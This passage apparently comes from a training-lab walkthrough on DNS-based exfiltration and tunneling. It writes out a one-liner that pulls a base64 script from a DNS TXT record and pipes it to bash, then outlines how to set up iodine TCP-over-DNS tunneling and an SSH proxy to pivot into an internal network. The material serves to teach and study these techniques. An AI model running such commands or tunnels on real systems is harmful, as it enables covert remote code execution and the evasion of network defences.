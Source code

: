 - Execute the Bash Script!

```shell
thm@victim2$ dig +short -t TXT script.tunnel.com | tr -d "\"" | base64 -d | bash
	    
```

Note that we cleaned the output before executing the script using tr and deleting any double quotes ". Then, we decoded the Base64 text representation using base64 -d and finally passed the content to the bash command to execute. 

# DNS Tunneling                            

### DNS Tunneling (TCPoverDNS)

This technique is also known as TCP over DNS, where an attacker encapsulates other protocols, such as HTTP  requests, over the DNS protocol using the DNS Data Exfiltration  technique. DNS Tunneling establishes a communication channel where data  is sent and received continuously.

![DNS Tunneling - Data Flow](./assets/8176731af9ec61cf248cdbc65df92172.png)

This section will go through the steps required to establish a communication channel over the DNS. We will apply the technique to the network infrastructure we provided (**JumpBox** and **Victim2**) to pivot from Network 2 (192.168.0.0/24) to Network 1 (172.20.0.0/24)  and access the internal web server. For more information about the  network infrastructure, please check task 2.

We will be using the [iodine ](https://github.com/yarrick/iodine)tool for creating our DNS tunneling communications. Note that we have already installed [iodine ](https://github.com/yarrick/iodine)on the JumpBox and Attacker machines. To establish DNS tunneling, we need to follow the following steps:

1. Ensure to update the DNS records and create new NS points to your AttackBox machine (Check Task  8), or you can use the preconfigured nameserver, which points to the  Attacker machine (att.tunnel.com=172.20.0.200).
2. Run **iodined** server from AttackBox or the Attacker machine. (note for the **server** side we use iodine**d**)
3. On JumpBox, run the iodine client to establish the connection. (note for the client side we use iodine - without **d)**
4. SSH to the machine on the created network interface to create a proxy over DNS. We will be using the -D argument to create a dynamic port forwarding.
5. Once an SSH connection is established, we can use the local IP and the local port as a proxy in Firefox or ProxyChains.
